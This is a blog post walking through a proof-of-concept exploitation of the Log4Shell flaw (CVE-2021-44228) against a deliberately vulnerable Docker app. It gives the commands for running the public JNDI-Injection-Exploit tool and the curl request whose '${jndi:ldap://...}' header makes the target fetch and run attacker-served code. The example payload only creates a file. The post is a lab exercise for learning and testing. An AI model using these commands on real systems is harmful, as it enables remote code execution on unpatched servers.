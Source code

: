 ```yaml
---
layout: /src/layouts/MDLayout.astro
title: POC log4j exploit.
description: Post in which we exploit the log4j vuln (CVE-2021-44228)
---
```

## Introduction 


Recently the vulnerability CVE-2021-44228 has come to light. Many of the posts explain how to check if you are vulnerable, let's go one step further and test some public exploit.

## Setting up environment.


There is a docker created by "christopherd" which raises a vulnerable application, perfect for testing without affecting anyone.

```bash
sudo docker run --rm -p 8080:8080 --name POC ghcr.io/christophetd/log4shell-vulnerable-app
```

![Application deployed](/static/blog/img/log4j_1.png)


On the other hand we will need to run the exploit and for that we need a server to which our application has network access. The exploit that we will use can be found in the following link:



https://github.com/welk1n/JNDI-Injection-Exploit


For it to work correctly we will run it inside the openjdk docker container.

```bash
sudo docker run -it -p 8180:8180 -p 1099:1099 -p 1389:1389 -v $(pwd):/data/exploit --name java openjdk:latest /bin/sh
```


Once inside the container we execute the exploit. Specifically, we will make the exploit create the "pwnd" file inside the tmp directory, to do so we will execute the following command.

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/pwnd" -A <IP>
```

![Exploit deployed](/static/blog/img/log4j_2.png)

## Exploiting


Now let's get to the fun part.... In order to run the exploit, the creator of the vulnerable container tells us that we have to insert the exploit as the value of the "X-Api-Version" header. To do this we are going to use the link that marks the exploit used with the curl...

```bash
curl IP:8080 -H 'X-Api-Version: ${jndi:ldap://0.0.0.0:1389/ly7kts}' 
```



As we can see below, the exploit has told us that it has received a connection.

![Connection received](/static/blog/img/log4j_3.png)


But... what caused this connection? Well, if we look at the logs of the vulnerable app we can see that it was our application sending the curl.


![Vulnerable application logs.](/static/blog/img/log4j_4.png)


Finally if our file has been created we see that our command has been successfully executed. And as we see below :P : 


![Application successfully exploited](/static/blog/img/log4j_5.png)

## Interesting links

[Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)


[Docker Vulnerable](https://www.lunasec.io/docs/blog/log4j-zero-day/#reproducing-locally)

